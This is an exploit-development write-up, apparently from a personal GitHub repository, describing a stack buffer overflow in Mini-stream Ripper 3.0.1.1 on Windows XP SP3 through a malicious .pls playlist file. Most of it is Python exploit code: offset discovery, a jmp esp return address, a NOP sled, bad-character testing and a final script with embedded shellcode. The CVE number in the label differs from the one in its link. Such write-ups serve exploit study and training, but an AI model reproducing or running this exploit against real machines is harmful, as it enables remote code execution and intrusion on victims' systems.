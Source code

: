 # Mini-stream Ripper 3.0.1.1 _ Win XP SP3 - Buffer Overflow

-   [cve details: CVE-2007-1567](https://nvd.nist.gov/vuln/detail/CVE-2009-5109)
-   Target: Mini-stream Ripper 3.0.1.1
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

I check program and I see ,program looad several format file like PLS,m3u , ... . I create a exploit and send 50000 buffer to program.It crashed and EIP is 41414141.
I use Mona to detect size of the buffer (5786). But when Use this size of the buffer, Program not crash. Now I should be detect manually. For this I change my exploit to:


```
f=open("css.pls","w+")
exploit="A" * 12500 + "B" * 12500 + "C" * 12500 + "D" * 12500
f.write(exploit)
f.close()
```

IF EIP is 41414141 delete BCD, if 42424242 delete CB and ... . I several test and finally I recive to 26066.


```
f=open("css.pls","w+")
exploit="A" * 26066 + "BBBB"  + "C" * 100 
f.write(exploit)
f.close()
```

EIP is 42424242 and after 8 byte,"C" is buffered.So I add to my exploit , my shellcode and a address of the "jmo ESP" (point to stack,replace BBBB) 
and 8 NOP to by pass 8 byte gap.

```
f=open("css.pls","w+")
exploit="A" * 26066 + "\xcf\x2e\xe3\x73"  + "\x90" *8 + ("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")
f.write(exploit)
f.close()
```

But after run it ,shellcode Not execute and I understood ,I have badcahr :( . I generate bytearray with mona and add to my exploit :


```
f=open("css.pls","w+")
exploit="A" * 26066 + "\xcf\x2e\xe3\x73"  + "\x90" *8 + ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
f.write(exploit)
f.close()
```

I check manually and detect this bad char: \x00\x09\x0a . I generate shellcode and again it Not work. I have extra bad char. For detect It,I add 
last shellcode (without bad char) and in the last first line add "\xcc" (breakpoint). I run exploit and I see my shellcode not stop in \xcc.

```
"\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1\xcc"
```

I change posation of "\xcc" :

```
"\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xcc\xb1"
```

I change It to detect xd9 is badchar. I generate new shellcode without \x00\x09\x0a\xda\. After run again myshell code Not run. I run last step and
I understood xd9 is badchar, Finally I create shellcode without this character : "\x00\x09\x0a\xda\xd9" . and it run :)


```
f=open("css.pls","w+")

#jmp esp address: 73E32ECF 
#badcar: \x00\x09\x0a\xda\xd9

exploit="A" * 26066 + "\xcf\x2e\xe3\x73" + "\x90" *8 + ("\x31\xc9\x83\xe9\xcf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\xbf\x9a\x3d\xef\x83\xee\xfc\xe2\xf4\x43\x72\xbf\xef\xbf\x9a"
"\x5d\x66\x5a\xab\xfd\x8b\x34\xca\x0d\x64\xed\x96\xb6\xbd\xab"
"\x11\x4f\xc7\xb0\x2d\x77\xc9\x8e\x65\x91\xd3\xde\xe6\x3f\xc3"
"\x9f\x5b\xf2\xe2\xbe\x5d\xdf\x1d\xed\xcd\xb6\xbd\xaf\x11\x77"
"\xd3\x34\xd6\x2c\x97\x5c\xd2\x3c\x3e\xee\x11\x64\xcf\xbe\x49"
"\xb6\xa6\xa7\x79\x07\xa6\x34\xae\xb6\xee\x69\xab\xc2\x43\x7e"
"\x55\x30\xee\x78\xa2\xdd\x9a\x49\x99\x40\x17\x84\xe7\x19\x9a"
"\x5b\xc2\xb6\xb7\x9b\x9b\xee\x89\x34\x96\x76\x64\xe7\x86\x3c"
"\x3c\x34\x9e\xb6\xee\x6f\x13\x79\xcb\x9b\xc1\x66\x8e\xe6\xc0"
"\x6c\x10\x5f\xc5\x62\xb5\x34\x88\xd6\x62\xe2\xf0\x3c\x62\x3a"
"\x28\x3d\xef\xbf\xca\x55\xde\x34\xf5\xba\x10\x6a\x21\xcd\x5a"
"\x1d\xcc\x55\x49\x2a\x27\xa0\x10\x6a\xa6\x3b\x93\xb5\x1a\xc6"
"\x0f\xca\x9f\x86\xa8\xac\xe8\x52\x85\xbf\xc9\xc2\x3a\xdc\xfb"
"\x51\x8c\x91\xff\x45\x8a\xbf\x9a\x3d\xef")
f.write(exploit)
f.close()

```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-5109_BOF/images/1.PNG)

